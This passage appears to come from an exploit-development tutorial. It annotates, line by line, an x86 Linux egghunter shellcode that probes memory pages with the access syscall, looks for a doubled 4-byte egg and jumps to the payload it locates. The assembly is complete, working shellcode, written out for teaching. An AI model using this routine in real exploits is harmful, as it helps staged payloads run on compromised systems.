 For the first three lines, the registers are being prepared for the next instructions.
See comments in the code below for inline explanation:

```nasm {linenos=false}
mov ebx,0x50905090  ; 0x50905090 is the egg with equivalent instructions of:
                    ; nops; push eax; nops; eax
                    ; The egg is saved into ebx will then be use to compare
                    ; in instructions lines 13 and 14 of full code
xor ecx,ecx         ; clear the value of ecx; ecx xor ecx = 0
mul ecx             ; clear eax and edx
                    ; multiplying 0x0 with eax will result to 0x0 for
                    ; both eax and edx, see https://www.felixcloutier.com/x86/mul
```
Then the next lines prepare registers for the access(2) syscall
```nasm {linenos=false}
or dx,0xfff         ; 0x0 or 0xfff = 0xfff, means dx = 0xfff = 4095
inc edx             ; makes edx = 4096
pusha               ; push registers to stack,
                    ; this is to save the values and then use them later
                    ; since the next line will alter ebx
lea ebx,[edx+0x4]   ; ebx = address to be validated
                    ; in this case is edx + 0x4
                    ; 4 bytes is added since 8 bytes will be validated in single swoop
                    ; which means edx - 0x4 is within the range as well
```
System call access(2), then the return value is stored in eax. More details in: https://man7.org/linux/man-pages/man2/access.2.html
```nasm {linenos=false}
mov al,0x21         ; 0x21 is the code for access(2)
int 0x80            ; syscall access(address_to_be_validated, NULL)
```
The next lines are series of conditions to check if the current page contains the egg
```nasm {linenos=false}
cmp al,0xf2         ; The return value in eax is compared to 0xf2,
                    ; the value for EFAULT - the page is inaccessible.
                    ; If the value are the same, zero flag will be set.
popa                ; restore the previous registers state before line 6
jz 0x9              ; If zero flag is set (page is inaccessible)
                    ; next instruction will be jump back to line 4
                    ; which will increment the dx to check the next page.
                    ; Otherwise, if page is accessible, execution flow will proceed
cmp [edx],ebx       ; Checks if the egg is found in the current page
jnz 0xe             ; if not, jump to line 5 which will iterate through the current page
                    ; else proceed with the execution flow.
cmp [edx+0x4],ebx   ; Checks again if the next 4 bytes contains the egg again
                    ; since it should be prepended twice
jnz 0xe             ; if not, same conditions with line 14
jmp edx             ; if all conditions are met, jump to the current page
```
#### Recall
The egghunter shellcode contains the following stages:
- initialization of registers
- alignment of page to be validated
- inspections of the page by means of several conditions
